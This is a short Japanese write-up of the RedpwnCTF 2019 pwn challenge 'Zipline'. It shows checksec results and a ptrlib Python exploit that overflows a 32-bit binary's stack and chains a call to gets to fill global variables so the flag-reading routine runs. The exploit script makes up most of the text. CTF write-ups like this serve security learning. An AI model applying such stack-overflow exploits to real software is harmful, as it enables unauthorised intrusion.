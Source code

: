 # [pwn 50pts] Zipline - RedpwnCTF 2019
32ビットでNX以外無効です。
```
$ checksec -f zipline
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   104 Symbols     No      0               4       zipline
```
Stack Overflowがありますが、libcは配布されていません。
脆弱性のある関数のあとに特定の条件でフラグを読み込む関数があります。
グローバル変数aからhまでが0でなければフラグが読まれるので、getsでそこを埋めるようにすればOKです。
```python
from ptrlib import *

#sock = Process("./zipline")
sock = Socket("chall2.2019.redpwn.net", 4005)
elf = ELF("./zipline")

rop_pop_ebx = 0x08049021
plt_gets = 0x08049060

payload = b'A' * 0x16
payload += p32(plt_gets)
payload += p32(0x8049569)
payload += p32(elf.symbol("a"))
sock.sendlineafter("hell?", payload)

sock.sendline("A" * 0x8)

sock.interactive()
```

# 感想
フラグを読む部分を直接呼んでも良いと思います。